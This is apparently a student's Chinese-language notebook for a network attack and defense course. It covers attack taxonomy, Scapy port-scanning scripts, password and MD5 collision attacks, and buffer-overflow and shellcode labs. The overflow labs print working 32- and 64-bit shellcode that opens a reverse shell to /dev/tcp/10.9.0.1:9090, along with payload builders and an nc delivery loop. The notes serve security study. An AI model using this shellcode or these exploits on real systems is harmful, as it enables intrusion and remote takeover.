






# 🤠 Cyber attack and defense Notebook

### CH1 网络攻击技术

#### &#x20;攻击分类的标准及类别

**按攻击目的**

拒绝服务攻击（DoS，Denial-of-Service）、获取系统权限的攻击、获取敏感信息的攻击

**按攻击的机理**

缓冲区溢出攻击、SQL注入攻击

**按攻击实施的对象**

对网络设备的攻击、对操作系统的攻击、对特定的应用系统攻击

**按攻击发生时攻击者与被攻击者之间的交互关系**

* 本地攻击（Local Attack）
  * 实际接触被攻击的主机而实施的攻击
  * 防御：比较难以防御，需要制定严格的管理制度
* 主动攻击（Server-side Attack），也称服务端攻击
  * 对被攻击主机所运行的Web、FTP、Telnet等开放网络服务进行攻击
  * 防御思路：通过技术手段或安全策略加固系统所开放的网络服务
* 被动攻击（Client-side Attack），也称客户端攻击
  * 对被攻击主机的客户程序进行攻击，如攻击浏览器、文字处理程序
  * 防御：对系统以及网络应用中的客户程序进行安全加固；加强安全意识来辨识并应对网络攻击中的社会工程学手段
* 中间人攻击（Man-in-Middle Attack）
  * 攻击者处于被攻击主机某网络应用的中间人位置，实施数据窃听、破坏篡改等
  * 防御：为网络通信提供可靠的认证和加密机制，确保通信双方身份合法性和内容的机密性与完整性

#### **攻击步骤与方法**

每个步骤的详细理解

**1. 信息收集**

尽可能多的收集目标的相关信息，重点包括：

* 网络信息：域名、IP地址、网络拓扑
* 系统信息：OS版本、开放的各种网络服务版本
* 用户信息：用户标识、组标识、共享资源、邮件账号、即时通信软件账号

**2. 权限获取**

获取目标系统的读、写、执行等权限

**3. 安装后门**

在目标系统中安装后门或木马程序，从而以更加方便、更加隐蔽的方式对目标系统进行长期操控

**4. 扩大影响**

以目标系统为 “ 跳板 ” ，对目标所属网络的其他主机进行攻击，最大程度地扩大攻击的效果

**5. 消除痕迹**

清除攻击的痕迹，以便尽可能长久的对目标进行控制并防止被识别、追踪

#### 物理攻击和社会工程学


***

### **Lab1 域名信息收集工具**

构造请求头，绕过反爬机制

从响应的内容中提取域名信息

```python
import requests                          #用于请求网页
from bs4 import BeautifulSoup            #用于处理获取的到的网页源码数据
from urllib.parse import urlparse        #用于处理url
​
# 定义一个采用百度搜索的方法
# baidu搜索引擎搜索子域名的语法为：site:[域名]
def baidu_search():
    Subdomain2 = []  # 定义一个空列表用于存储收集到的子域名
    # 定义请求头，绕过反爬机制
    hearders = {
        'user-agent': ,
        'accept': ,
        'cookie': 
    }
    
    # 定义请求url
    url = ""
    resp = requests.get(url,headers=hearders)  # 访问url，获取网页源码
    soup = BeautifulSoup(resp.content,'html.parser')  
    # 创建一个BeautifulSoup对象
    # 第一个参数是网页源码，第二个参数是Beautiful Soup 使用的 HTML 解析器
    
    job_bt = soup.find_all('div',class_="result c-container xpath-log new-pmd")
    for i in job_bt:
        link = i.get('mu')  #根据分析，属性为mu的值中包含子域名信息
        #从响应中提取子域名的描述description
        description = i.find('div', class_="c-container").find('h3').find('a').get_text()
        # urlparse是一个解析url的工具，scheme获取url的协议名，netloc获取url的网络位置
        domain = str(urlparse(link).scheme + "://" + urlparse(link).netloc)
        if domain in Subdomain2:  
            pass
        else:
            Subdomain2.append(domain)
            print(domain)
​
```

***

### CH2 信息收集技术

#### 公开信息收集

定义、内容、分类及必要性（非标）

通过公开信息收集，攻击者可以掌握目标系统的域名、IP地址、网络注册信息、阻止机构信息，甚至时安全防护手段

**分类**

1. 利用Web服务
   * 几乎所有的实体都会在互联网上设置门户网站，Web网站提供的公开邮箱常被攻击者视为入侵公司内部的通道
2. 利用搜索引擎服务
   * Google Hacking
3. 利用`WhoIs`服务
   * `WhoIs`是一种基础Internet服务，主要用来帮助Internet的使用者查询已注册的域名
   * `WhoIs`服务返回的具体信息包括：域名登记人、相关管理人员联系方式、域名注册时间、更新时间、权威DNS、服务器IP地址等
4. 利用DNS域名服务

#### **网络扫描的类型和原理**

<figure><figcaption></figcaption></figure>

* 主机扫描
  *   **传统 ICMP Ping 扫描**

      对目标系统进行 echo request （ICMP type = 8）请求探测，最常规的 Ping 工具，容易被防火墙屏蔽。
  *   **`arping` 扫描**

      通过 ARP 请求来实现探测，一般防火墙没法过滤 ARP 协议，成功率比 ICMP ping 高

      ```python
      arping 10.10.10.129
      ```
  *   **Nmap进行主机探测**

      ```python
      nmap <扫描选项> <扫描目标>
      //可以在bt5下直接使用，也可以进入msf终端使用
      nmap 10.10.10.0/24
      ```
  * UDP Ping 扫描
* 端口扫描
  * 原理：端口扫描向目标主机的TCP/IP服务端口发送探测数据包，并记录目标主机的响应。通过分析响应来判断服务端口是打开还是关闭，就可以得知端口提供的服务或信息。
  * 分类：经典的扫描器TCP链接扫描（全连接）以及所谓的SYN（半连接）扫描器。此外还有间接扫描和秘密扫描等
  *   **TCP 连接扫描**

      调用 connect() socket 函数连接目标端口，无需特权用户权限可发起，目标主机记录大量连接和错误信息，容易检测。 开放端口：完成完整的TCP三次握手(SYN, SYN|ACK, ACK)，timeout/RST 关闭端口：SYN，RST

      
  *   **SYN扫描**

      半开扫描(half-open scanning)，目标主机不会记录未建立连接，较为隐蔽，需根用户权限构建定制SYN包。 开放端口：攻击者SYN，目标主机SYN|ACK，攻击者立即反馈RST包关闭连接。 关闭端口：攻击者SYN，目标主机RST。

      
  *   隐蔽端口扫描

      TCP 连接扫描和 SYN 扫描并不隐蔽，防火墙会监控发往受限端口的 SYN 包，隐蔽端口扫描通过构造特殊的 TCP 标志位，以躲避检测，同时达成端口扫描目的。

      * SYN+ACK扫描(设置SYN位和ACK位)，开放端口丢弃，关闭端口反馈RST
      * FIN 扫描(只带 FIN 位)，开放端口丢弃，关闭端口反馈RST
      * Null 扫描(全为0)，开放端口丢弃，关闭端口反馈RST
      * XMAS 扫描(设置标志位FIN,PSH,URG)，开放端口丢弃，关闭端口响应一个同样设置所有标志位的包
        * URG：指示数据是紧急数据，应立即处理
        * PSH：强制将数据压入缓冲区
        * FIN：结束TCP会话
      * IP分段扫描，把TCP包分成很小的分片，让它们能通过包过滤防火墙
      * FTP Proxy扫描，利用 FTP 代理选项达到隐蔽源地址

      一般来说

      * 开放端口：标准TCP协议规范，接受这些伪造TCP包，丢弃，无任何反馈。
      * 关闭端口：反馈RST包。

      缺点：需要使用RAW Socket编程，实现起来较为复杂，Windows/Cisco 等系统没有遵从规范，开放端口对于伪造 TCP 包也反馈 RST，这几种方法不适用。

      \

  *   **UDP 端口扫描**

      对目标端口发送特殊定制的 UDP 数据报文。 开放端口：UDP 反馈 关闭端口：ICMP port unreachable 报文。

      
*   系统类型扫描

    利用Banner（服务程序接收到客户端的正常连接后所给出的欢迎信息）

    TCP/IP协议栈指纹：利用不同操作系统在实现TCP/IP协议栈时由于各种原因导致的细节上的差异

#### 漏洞扫描的目的原理组件及方法

原理：

基于漏洞数据库，通过扫描等手段对指定的远程或本地计算机系统的安全脆弱性进行检测，从而发现可利用的漏洞的一种**安全检测/渗透攻击**行为

组件：

1. 漏洞数据库模块
2. 扫描引擎模块
3. 用户配置控制台模块
4. 当前活动的扫描知识库模块
5. 结果存储器和报告生成工具

方法：

*   基于网络的漏洞扫描

    从外部攻击者的角度扫描目标网络和系统，用于探测网络协议和计算机系统中网络服务中存在的漏洞
*   基于主机的漏洞扫描

    从系统用户的角度检测计算机系统的漏洞，用于发现应用软件、注册表或用户配置等存在的漏洞

***

### **Lab2 端口扫描实验**

#### 半连接扫描 flags="S"

```python
​
def port_scan(ip, port):
    p = IP(dst=ip) / TCP(dport=int(port), flags="S")
    #半连接扫描，扫描者向目标主机发送一个SYN，
    #如果目标主机回复了一个SYN/ACK数据包，那么说明主机存活
    #如果收到一个RST/ACK数据包或者无回复,那么主机没有存活
    ans = sr1(p, timeout=1, verbose=1)
    if ans == None :
        print("[SYN SCAN]",ip, "port", port, "is close.")
    elif ans != None and ans[TCP].flags == 'SA':
        ans.display()
        print("[SYN SCAN]",ip, "port", port, "is open.")
```

#### FIN扫描 flags="F"

```python
def FIN_scan(ip,port):
    p = IP(dst=ip) / TCP(dport=int(port), flags="F")
    #FIN扫描中将标志位FIN置1，若端口开放，则无回应，若端口关闭，会收到RST
    ans = sr1(p, timeout=1, verbose=1)
    if ans == None:
        print("[FIN SCAN]",ip, "port", port, "is open.")
​
    elif ans != None and ans[TCP].flags == 'RA':
        ans.display()
        print("[FIN SCAN]",ip, "port", port, "is closed.")
```

#### NULL扫描 flags=""

```python
def NULL_scan(ip, port):
    p = IP(dst=ip) / TCP(dport=int(port), flags="")
    # NULL扫描将一个没有设置任何标志位的数据包发给TCP端口
    #端口开放：Client发送Null，server没有响应
    #端口关闭：Client发送NUll Server回复RST
    ans = sr1(p, timeout=1, verbose=1)
    if ans == None:
        print("[NULL SCAN]", ip, "port", port, "is open.")
    elif ans != None and ans[TCP].flags == 'RA':
        ans.display()
        print("[NULL SCAN]", ip, "port", port, "is closed.")
```

#### XMAS扫描 flags="FPU"

```python
def XMAS_scan(ip, port):
    #通过设置flag位FPU，如果未回复表示端口开启，如果回复RA表示端口关闭
    p = IP(dst=ip) / TCP(dport=int(port), flags="FPU")
    ans = sr1(p, timeout=1, verbose=1)
    if ans == None:
        print("[Xmas]", ip, "port", port, "is open.")
    elif ans != None and ans[TCP].flags == 'RA':
        ans.display()
        print("[Xmas]", ip, "port", port, "is closed.")
```

#### ACK扫描

ACK 扫描与前面的扫描目的不同，不用于发现端口状态，而用于发现服务器上状态防火墙的存在情况。它的结果只能说明端口是否被过滤。

```python
# 防火墙发现-ACK扫描
def FirewallIsUp_ACK(ip, port, timesout = 3):
    ans = sr1(IP(dst=ip)/TCP(dport=port,flags="A"),timeout=3,verbose=False)
    if ans == None: # 无响应，说明过滤器开启
        print("[ACK SCAN]",ip, "port", port, "FireWall is up")
    elif ans.haslayer(ICMP): # 返回ICMP包
        if ans.getlayer(ICMP).type in [1,2,3,9,10,13]:
            #  ICMP 目标不可达错误类型3，被过滤， 代码为1，2，3，9，10或13，被过滤
            print("[ACK SCAN]",ip, "port", port, "FireWall is up")
        elif ans.haslayer(TCP):# 返回TCP包
            if ans[TCP].flags == 'RA': # 验证为RST包，说明防火墙关闭
                print("[ACK SCAN]",ip, "port", port, "FireWall is down")
```

#### Window扫描

扫描的流程类似于 ACK 扫描，向服务端发送带有 ACK 标识的数据包。TCP 窗口扫描会检查收到的 RST 数据包中的窗口大小，通过窗口值判断端口开放情况，目标端口开放时：收到的RST响应窗口值大于零，目标端口关闭时：收到的RST响应窗口值等于零

```python
def window_scan(ip, port):
    window_ans=sr1(IP(dst=ip) / TCP(dport=int(port), flags="A"),timeout=5)
    #通过设置flags位为ACK,不回复表示端口关闭或被过滤，
    #如果回复的数据包TTL小于等于64表示端口开放，大于64端口关闭(windows)
    if (str(type(window_ans)) == "<class 'NoneType'>"):
        print("[WINDOWS]", ip, "port", port, "is closed.")
    elif (window_ans.haslayer(TCP)):
        if (window_ans.getlayer(TCP).window == 0):
            print("[WINDOWS]", ip, "port", port, "is closed.")
        elif (window_ans.getlayer(TCP).window > 0):
            print("[WINDOWS]", ip, "port", port, "is OPEN.")
    else:
        print("[WINDOWS]", ip, "port", port, "s closed.")
```

#### NMAP工具扫描

```
#TCP全连接扫描:
    nmap -sT
#SYN扫描：
    nmap -sS
#TCP FIN扫描：
    nmap -sF
#NULL扫描：
    nmap -sN
#XMAS扫描：
    nmap -sX
#TCP ACK扫描：
    nmap -sA
#TCP窗口扫描：
    nmap -sW
#Dump扫描：
    nmap -sI
#UDP扫描：
    nmap -sU
​
```

#### conf.L3socket=L3RawSocket作用

让程序无视防火墙安全的原始套接字限制，可以成功通过`Scapy`发送数据包

### **CH3 口令攻击**

### **CH3 口令攻击**

#### 口令攻击方式

**针对口令强度攻击**

针对弱口令容易猜测爆破的特性。

常见的攻击手段包括：1.字典攻击 2.强力攻击（就是爆破）3.组合攻击 4. 撞库攻击（根据同用户其他网站账号信息建立字典撞库） 5.彩虹表攻击

**针对口令存储的攻击**

*   Linux存储：

    /etc/passwd (明文)

    /etc/shadow（盐 + 加盐散列）
*   Windows存储：

    %systemroot%system32%/config

    %systemroor%/repair

    HKEY\_LOCAL\_MACHINE/SAM键（注册表中）

    本地安全数据库(SAM）
* 攻击方法包括在身份验证时系统总是要将被比较对象提到内存中，可以尝试用钩子或者内存监听方式获取。

**针对口令传输攻击**

* 网卡放混杂模式嗅探，重放（简单，反向）

#### 口令攻击的防范

定期改变口令，使用强口令，磁盘设置NTFS（New Technology File System）格式，关闭不用的端口或服务

### Lab3 MD5碰撞攻击实验

#### md5collgen工具

生成两个md5文件：`./md5collgen -p prefix.txt -o out1.bin out2.bin`

根据md5collgen的原理，从prifix.txt中取前缀，**若前缀不是64的倍数，则用零填充**，然后md5collgen为两个输出文件生成128字节的内容，这两个输出文件就是在这128字节中存在部分差异。

截取文件前缀命令：(截取了row.out的前12352字节)

`head -c 12352 row.out > prefix`

截取文件后缀命令：(截取了row.out12480字节以后的内容)

`tail -c +12481 row.out > sufix`

拼接文件命令：

`cat out sufix > ans`

#### 问题

* 为什么可以做到不同行为的两个可执行文件具有相同的MD5值

这本质上是因为MD5算法本身存在_**\*哈希碰撞\***_的可能性，本实验实现md5碰撞攻击的原理有以下两个方面：

原理1：md5collgen 工具可以生成128字节的md5相同的内容，构造具有相同md5值的文本 原理2：**MD5 通过处理 512 位（64 字节）的数据块来运算，产生一个 128 位（16 字节）的哈希值**，由于MD5是分块加密的，所以在保证前面一样的情况下，将后面的一块部分整个替换掉的md5值不变 所以我们可以先用head/tail分块后用cat命令连接

### **CH4 软件漏洞**

#### 漏洞的定义、典型漏洞类型

漏洞的定义：指信息系统硬件、软件、操作系统、网络协议、数据库等在设计上、实现上出现的可以被攻击者利用的错误、缺陷和疏漏

典型漏洞类型：栈溢出、堆溢出、格式化字符串、整型溢出、UAF

进程内存地址由低到高依次是：栈、堆、数据段、文本（代码）段

**函数调用机制**

1.  调用者函数把被调函数所需参数**从右向左**依次压栈

    `push argument2`

    `push argument1`
2.  call调用被调函数并执行相关操作（压栈&跳转）

    `call 被调用函数地址`

    `push 返回地址`

    `jmp 被调用函数地址`
3.  被调用者保存机制：被调函数保存**调用者函数的栈底（旧ebp）**后进行栈帧切换

    `push ebp`

    `move ebp, esp`
4.  从ebp位置开始存放被调函数的局部和临时变量，开辟存储空间

    `sub esp, xxx`

#### **溢出漏洞利用**

基本流程

* 注入恶意数据
* 溢出缓冲区
* 控制流重定向
* 执行有效载荷

关键技术

* 溢出点定位
  * 探测法：黑盒测试，也就是说只是随机数输入，通过报错信息判断
  * 反汇编分析法
* 覆盖控制执行地址
  * 覆盖返回地址
  * 覆盖EIP指针
  * 覆盖函数指针变量
  * 覆盖异常处理结构
* 覆盖异常处理结构
* 跳转地址的选定
  *   跳转指令的搜索范围：

      用户空间的任意地址

      系统DLL

      进程代码段

      PEB

      TEB
* shellcode的定位和跳转
  *   **NOP Sled Decoder Real\_shellcode**

      NOP Sled：类似NOP指令一样的填充，无意义，可以是NOP，也可以是一些无副作用指令

      Decoder： 解码部分，对Real\_shellode进行解码

      Real\_shellcode：经过了编码处理的shellcode
  * Push是四个字节对齐的（32位一个栈空间大小），因此必须每次压栈四个字节或者一个字节一个字节赋值
  * 如果 user32.dll 没有加载时， 那个 API 地址将不会指向 `MessageBoxA` 函数，代码将会失败
  * shellcode 调用函数后，没有做扫尾工作

#### 栈溢出漏洞

*   内存分布

    每个进程有一个栈，这个进程中的每个函数被调用时分别在栈中占用一段区域，成为栈帧（Stack Frame），**esp**（32位寄存器）指向当前栈帧的**栈顶**，**ebp**指向当前栈帧的**栈底**


    <figure><figcaption></figcaption></figure>
* **漏洞利用内存变化**
*   **压栈、出栈栈溢出原理**

    利用栈地址由内存高段向低段生长，先进后出（FILO）结构，从而可以实现栈溢出覆盖返回地址

#### 格式化字符串漏洞

常见利用：格式化参数%n的作用将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置，实现数据的精准写入

#### 堆溢出漏洞

#### shellcode编写

***

### Lab4 缓冲区溢出实验

重点一： 32bit和64bit的shellcode完全不一样（吃了大亏） 重点二： 关闭地址随机化ASLR 重点三： shellcode与EBP与Buffer的地址关系：

* 32位：EBP - Buffer’s address + 4
* 64位：EBP - Buffer’s address + 8

#### 32位

shellcode

```python
shellcode= (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

**32位 Level 1**

已知buff地址和ebp地址

payload构造：

```python
# Put the shellcode somewhere in the payload
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
​
buff= 0xffffcac8
ebp = 0xffffcb38
​
ret = ebp + 8 # Change this number 
offset = ebp - buff + 0x4           # Chage this number 
print('offset:',offset)
​
# Use 4 for 32-bit address and 8 for 64-bit address 
content[offset:offset + 4] = (ret).to_bytes(4, byteorder='little')
```

**32位 Level2**

已知buff地址但未知ebp地址，无法计算要覆盖的返回地址具体的位置，所以这里采用的想法是将所有内容全部覆盖为返回地址，这样总会命中并覆盖，

填充的返回地址越多，命中的可能越大，将shellcode放于`badfile`的末尾（ret = buff + start，start = 517-len(shellcode)），其余地址全部覆盖为返回地址值（无需考虑buff大小范围）

payload构造：

```python
# Put the shellcode somewhere in the payload
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
print('len of shellcode:',len(shellcode))
# Decide the return address value 
# and put it somewhere in the payload
buff= 0xffffcac8
​
​
ret = buff + start # Change this number
#offset = ebp - buff + 0x4           # Chage this number
#print('offset:',offset)
print('ret:',ret)
# Use 4 for 32-bit address and 8 for 64-bit address
retcontent =  (ret).to_bytes(4, byteorder='little')
for i in range (0, start -0x4, 4):
   content[i:i + 4] = retcontent
```

#### 64位

shellcode：

一些疑惑的问题（已解决）：

* `*` 的使用是为了在执行时将其替换为 null 字节，以满足字符串参数的格式要求
* `"AAAAAAAA"` 等占位符是为了在内存中预留足够的空间以存放实际的字符串地址

```python
shellcode= (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   "/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1           *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
```

**64位 Level3**

64位的程序高两位为0x00，而`strcpy()` 会停止复制当遇到0x00时，所以我们必须将shellcode存放在返回地址之前（start\<ebp+8直接设置start = 0），否则会被`strcpy()` 0x00截断而无法覆盖到栈上

```python
start =  0  #start必须尽量小，使shellcode在返回地址之前
content[start:start + len(shellcode)] = shellcode
​
# Decide the return address value 
# and put it somewhere in the payload
buff= 0x00007fffffffdff0
rbp = 0x00007fffffffe0c0
ret = buff +start  #start=0，其实就是buff的地址
offset = rbp - buff + 0x8           # 由于是64位所以加8
​
# Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + 8] =  (ret).to_bytes(8,byteorder='little')
```

**64位 Level4**

buffer空间变得很小，也就是说，我们无法直接把shellcode直接填充到buff中，利用main中的str，因为我们的`badfile`文件内容一开始是直接读取并存放在main的str变量中，关键点在**爆破出str变量的地址**

```python
start =  517-len(shellcode) # Change this number 
content[start:start + len(shellcode)] = shellcode
print('len of shellcode:',len(shellcode))
# Decide the return address value 
# and put it somewhere in the payload
buff= 0x00007fffffffe130
rbp = 0x00007fffffffe190
​
ret = rbp  # Change this number 
offset = rbp - buff + 0x8           # Chage this number 
print('offset:',offset)
​
# Use 4 for 32-bit address and 8 for 64-bit address
for i in range(0, 100):
   ret += 60    
   content[offset:offset + 8] = (ret).to_bytes(8, byteorder='little')
   with open('badfile', 'wb') as f:
      f.write(content)
   print('ret:',hex(ret))
   print(os.system("cat badfile | nc 10.9.0.8 9090"))   
```

### Lab5 shellcode编写实验

编写shellcode的挑战：

* 确保二进制文件中没有0x00
  * sub操作：通过减法操作生成所需的字节。例如，如果需要生成 `0x01`，使用 `0xFF` 减去 `0xFE` 来得到 `0x01`，而不是直接写入 `0x01`。
  * XOR 操作：任何数与自身异或的结果都是 `0`。例如，如果要生成一个值且不包含 `0x00`，可以先将一个非零的值 XOR 与它自身，再与所需的值进行 XOR
  * 单字节写入：通过分多次写入较小的值来构造一个较大的值。可以避免在任何单次写入中包含 `0x00`
  * **左右移位**：通过**将寄存器中的值左移或右移**来改变其值，而不是直接写入一个可能包含 `0x00` 的值。例如，可以**将一个寄存器的值左移 8 位，然后通过 OR 操作与另一个不包含 `0x00` 的值合并**
  * 与空（\&null）绕过：通常涉及到使用 AND 操作与一个特定的值，以确保结果中不包含 `0x00`。例如，可以将一个值与 `0xFEFEFEFE` 进行 AND 操作，确保结果中不包含 `0x00`
* 找出命令中使用的数据的地址
  * 数据在执行期间被推入堆栈，因此可以从堆栈指针获得它们的地址
  * 数据存储在代码区域中，就在调用指令之后，因此在调用调用函数时，其地址被推入堆栈（作为返回地址）

#### `execve()`

系统调用号：`eax = 0x0000000b`

参数：

* `filename`：要执行的程序的路径。
* `argv`：指向字符串数组的指针，包含要传递给程序的参数，以 `NULL` 结尾。
* `envp`：指向字符串数组的指针，包含传递给程序的环境变量，以 `NULL` 结尾。

`int 0x80`中断：`eax` 寄存器用于存放系统调用的编号，而 `ebx`、`ecx`、`edx`、`esi`、`edi` 和 `ebp` 寄存器用于传递参数

```wasm
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

#### 执行命令`/bin/bash`

32位程序下push可填充32bit=4bytes大小的数据，由于需要执行的命令是`/bin/bash` 9bytes，所以要分成三次入栈且从后往前填充需要的字符串（栈FILO结构），第一次填充入栈“h\0”，第二次填充入栈“/bas”，第三次入栈“/bin”

* 使用 `xor eax, eax` 将 `eax` 寄存器置零，然后将 `eax`（现在为 `0x00`）推入栈以用作字符串的终止符。
* 字符串 "h" 被存储在 `ebx` 寄存器中，然后通过**左移和右移 24 位来清除高位字节**，以避免在代码中出现 `0x00`。
* 然后，将字符串 `/bas` 和 `/bin` 分别推入栈。
* 最后，通过设置 `ebx` 为字符串地址、`ecx` 为参数数组地址，并将 `edx` 置零（表示没有环境变量），调用 `execve` 系统调用来执行 `/bin/bash`

```wasm
section .text
  global _start
    _start:
      ; Store the argument string on stack      
      xor  eax, eax 
      push eax           ; Use 0 to terminate the string
      mov ebx, "h###"
      shl ebx, 24       ; 先左移24bit
      shr ebx, 24       ; 再右移24bit
      push ebx           ; "h\0"
      
      push "/bas"       ;"/bash\0"
      push "/bin"       ;"bin/bash\0"
      mov  ebx, esp     ; Get the string address
​
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
   
      ; For environment variable 设置edx寄存器为0，表示没有环境变量。
      xor  edx, edx     ; No env variables  
​
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

#### 执行 `/bin/sh` 并运行命令 `ls -la`

按照要求需要将“-c”和"ls -la"字符串作为参数传给`/bin/sh`所以需要依次将四个字符串入栈：

`argv[3] = 0`

`argv[2] = "ls -la"`

`argv[1] = "-c"`

`argv[0] = "/bin/sh"`

关键代码：

```wasm
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      
      push "//sh"
      push "/bin"
      mov  ebx, esp     ; Get the argv[0] address
      
      mov  ecx, "-c##"
      shl  ecx, 16
      shr  ecx, 16
      push ecx
      mov  ecx, esp     ; Get the argv[1] address
      
      mov  edx, "la##"
      shl  edx, 16
      shr  edx, 16
      push edx
      push "ls -"
      mov  edx, esp     ; Get the argv[2] address
           
      ; Construct the argument array argv[]
      xor  eax, eax 
      push eax          ; argv[3] = 0
      push edx          ; argv[2] = "ls -la\0"
      push ecx          ; argv[1] = "-c\0"
      push ebx          ; argv[0] = "/bin//sh\0"
      mov  ecx, esp
```

#### 设置环境变量并执行 `/usr/bin/env`

环境变量数组的起始地址传递给寄存器edx

按照要求：

环境变量数组构造要求为：

`env[3] = 0 // 0 marks the end of the array`

`env[2] = address to the "cccc=1234" string`

`env[1] = address to the "bbb=5678" string`

`env[0] = address to the "aaa=1234" string`

argv数组构造为：

`argv[1] = 0`

`argv[0] = "/usr/bin/env"`

```wasm
section .text
  global _start
    _start:
      ; For environment variable 
      xor eax, eax
      push eax
      push "1234"
      push "aaa="
      mov  ebx, esp     ; Get the env[0] addres->ebx
      
      push eax
      push "5678"
      push "bbb="
      mov  ecx, esp     ; Get the env[1] address->ecx
      
      mov  edx, "4###"
      shl  edx, 24
      shr  edx, 24
      push edx
      push "=123"
      push "cccc"
      mov  edx, esp     ; Get the argv[2] address->edx
      
      xor  eax, eax 
      push eax          ; env[3] = 0
      push edx          ; env[2] = address to the "cccc=1234" string
      push ecx          ; env[1] = address to the "bbb=5678" string
      push ebx          ; env[0] = address to the "aaa=1234" string
      mov  edx, esp     ; Get the env address->edx
      
      
      ; Store the argument string on stack
      xor  eax, eax 
      push eax          ; Use 0 to terminate the string
      push "/env"
      push "/bin"
      push "/usr"
      mov  ebx, esp     ; Get the argv[0] address
      
           
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] = "/bin/usr/env"
      mov  ecx, esp
      
​
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
​
```

#### 64位shellcode

64位程序下栈空间为8bytes，所以填充的字符串应该是8bytes的倍数

```wasm
section .text
  global _start
    _start:
      ; The following code calls execve("/bin/sh", ...)
      xor  rdx, rdx       ; 3rd argument
      push rdx
      
      mov rax,'#######h'
      shr rax,56
      push rax
      
      mov rax,'/bin/bas'
      push rax
      mov rdi, rsp        ; 1st argument
      
      push rdx 
      push rdi
      mov rsi, rsp        ; 2nd argument
      xor  rax, rax
      mov al, 0x3b        ; execve()
      syscall
​
```

### Lab6 环境变量攻击

环境变量概念： 一组动态的定义值，操作系统运行环境的一部分，决定加载哪些外部dll

#### 进程获取环境变量

